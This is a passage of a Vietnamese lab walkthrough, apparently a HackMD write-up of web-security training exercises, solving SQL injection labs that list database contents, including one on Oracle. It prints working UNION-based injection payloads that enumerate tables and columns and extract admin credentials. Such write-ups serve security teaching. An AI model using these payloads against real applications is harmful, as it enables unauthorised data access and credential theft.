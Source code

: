 
Có thể thấy username và password sẽ được giấu trong 2 column là `username_gukkbi
`, `password_otrqlm`.

Vậy là chúng ta đã có đủ dữ kiện để lấy được credentials của admin.

Payload: `' union select username_gukkbi, password_otrqlm from users_zzhbxz
-- -`

![image](https://hackmd.io/_uploads/ryJT6GFO0.png)


Giờ chúng ta đã có credentials của admin, login và solve bài lab thôi :+1: .

![image](https://hackmd.io/_uploads/B17mEkKd0.png)

# 6. SQL injection attack, listing the database contents on Oracle

Tương tự như lab trên, trích xuất credentials của admin và login để solve bài lab. Chỉ khác biệt đây là oracle.

Các bạn chú ý phải truy vấn đầy đủ clause của query nha, vì là oracle nên chúng ta sẽ sử dụng build-in table `DUAL` để tìm số columns.

Payload: `' union select null, null from dual-- -`

![image](https://hackmd.io/_uploads/HkHfjkY_C.png)

=> Tồn tại 2 columns.

Tiếp theo chúng ta sẽ tìm table chứa credentials của các users. 

Payload: `' union select table_name, null from all_tables -- -`

![image](https://hackmd.io/_uploads/H1BEnJK_R.png)

Table chứa `username` và `password` là `USERS_FRTPWS`

![image](https://hackmd.io/_uploads/r14eayYO0.png)

Chúng ta sẽ tìm 2 cột chứa credentials cần tìm trong table này.

Payload: `' union select column_name, null from all_tab_columns where table_name='USERS_FRTPWS'-- -`

Username: `USERNAME_BSTDGM`

![image](https://hackmd.io/_uploads/rkkr01KOC.png)

Password: `PASSWORD_GJGEAX`

![image](https://hackmd.io/_uploads/Skr8RJF_C.png)

Step cuối là trích xuất credentials của admin và solve.

![image](https://hackmd.io/_uploads/H1pfylYd0.png)
